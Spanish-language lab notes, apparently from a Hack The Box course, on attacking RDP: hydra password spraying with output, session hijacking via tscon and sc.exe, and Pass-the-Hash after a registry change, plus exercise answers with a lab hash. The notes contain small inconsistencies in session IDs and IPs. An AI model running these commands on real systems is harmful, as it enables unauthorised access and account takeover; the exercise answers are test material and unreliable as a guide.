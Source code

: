 Por defecto, corre por el puert TCP/3389.

Partiendo de que conozcamos la contraseña del servidor RDP pero no el usuario, con la herramienta Crowbar podemos hacer un "spraying attack".

Generamos una lista de usuarios posibles:
```shell-session
Polika4RM@htb[/htb]# cat usernames.txt 

root
test
user
guest
admin
administrator
```

Y los atacamos con hydra:
```shell-session
Polika4RM@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

---

## RDP Login
Podemos loggearnos en un servicio RDP con *xfreerdp* o con *rdesktop*:
```shell-session
Polika4RM@htb[/htb]# rdesktop -u admin -p password123 192.168.2.143

Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses an invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.
     Issuer: CN=WIN-Q8F2KTAI43A

Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate, the connection atempt will be aborted:

    Subject: CN=WIN-Q8F2KTAI43A
     Issuer: CN=WIN-Q8F2KTAI43A
 Valid From: Tue Aug 24 04:20:17 2021
         To: Wed Feb 23 03:20:17 2022

  Certificate fingerprints:

       sha1: cd43d32dc8e6b4d2804a59383e6ee06fefa6b12a
     sha256: f11c56744e0ac983ad69e1184a8249a48d0982eeb61ec302504d7ffb95ed6e57

Do you trust this certificate (yes/no)? yes
```

---

# Secuestro de cuenta que se conecta a RDP
Imaginemos que tenemos acceso a una maquina sobre la cual tenemos permisos de administrador. 
A esa máquina se conecta alguien por RDP, pues, si yo tengo permisos, podría llegar a comprometer la máquina del visitante y escalar privilegios o suplantar su cuenta. Si el que se conectase tuviese por casualidad permisos de administrador del Active Directory, podríamos llegar a controlar la cuenta del administrador del dominio.

Escenario:
En una máquina RDP estoy yo loggeado como el usuario "juurena" (el cual es admin), y queremos capturar la sesión de "lewen", quien está conectado mediante RDP.

Para suplantar la identidad de dicho usuario, necesitaré tener permisos de administrador y usar el ejecutable tscon.exe. 

Dentro de la maquina donde soy admin, con el comando:
```
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

puedo ver los usuarios actualmente conectados a la máquina. Lewen, tiene el ID=4.
El ejecutable "tscon.exe" necesita que le especifiquemos el ID de la sesión que vamos a atacar (ID=4 en este caso) y el nombre de la sesión a la que la queremos conectar (a rdp-tcp#13, la mía)

Por ejemplo, el siguiente comando abrirá una consola a la SESSION_ID especificada dentro de nuestra sesión RDP:
```cmd-session
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

Si tenemos privilegios de aministrador Local, podemos utilizar varios métodos para obtener  "privilegios de sistema" de cuentas ajenas, mediante el uso de herramientas como PsExec o Mimikatz.

Cuando un servicio se ejecuta como Local System significa que ese servicio se está ejecutando con permisos de administrador.
Pues para este ejercicio, crearemos un servicio crearemos un servicio windows que ejecutará como Local System y podrá ejecutar cualquier binario con privilegios de administrador.
El binario que utilizaremos será el "sc.exe".

Vamos a correr el siguiente comando baja un servicio llamado "sessionhijack":
```cmd-session
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```


Para ejecutar el comando, necesitaremos iniciar el servicio "sessionhijack", con:
```cmd-session
C:\htb> net start sessionhijack
```

Una vez iniciado el sistema, se nos abrirá una terminal del usuario "lewen". Con su sesión, podemos mirar que permisos tiene sobre la red y con un poco de suerte quizá pertenece al Help Desk group.

----

## RDP Pass-the-Hash (PtH)

Existe la posibilidad de conectarnos a un servicio RDP del cual solo tengamos el NT Hash y no su contraseña en texto plano.

Deberemos revisar que:
- El modo de administrador restringido, que está deshabilitado por defecto, debe estar habilitado en el host objetivo.

Esto se puede habilitar añadiendo una nueva clave de registro, DisableRestrictedAdmin (REG_DWORD), en HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa. 

Se puede hacer con el siguiente comando:

```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Una vez agregada la clave de registro, podemos usar xfreerdp con la opción /pth para obtener acceso RDP:

```shell-session
Polika4RM@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
El "300FF5E89EF...BB9" es el HASH NTLM.

---
**Ejercicios**
Target:
**1. What is the name of the file that was left on the Desktop? (Format example: filename.txt)**
Executamos rdesktop:
```
rdesktop -u htb-rdp -p HTBRocks! 10.129.203.13
```

Y encuentro un archivo llamado pentest-notes.txt.
Respuesta: pentest-notes.txt

**2. Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?**
Respuesta teórica: DisableRestrictedAdmin

**3. Connect via RDP with the Administrator account and submit the flag.txt as you answer.**

El archivo contiene el siguiente contenido:
```
We found a hash from another machine Administrator account, we tried the hash in this computer but it didn't work, it doesn't have SMB or WinRM open, RDP Pass the Hash is not working.

User: Administrator
Hash: 0E14B9D6330BF16C30B1924111104824
```

Con el RDP de la sesión anterior, ejecuto:
```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Y finalmente, desde la máquina atacante ejecuto:
```
xfreerdp /v:10.129.203.13 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824
```

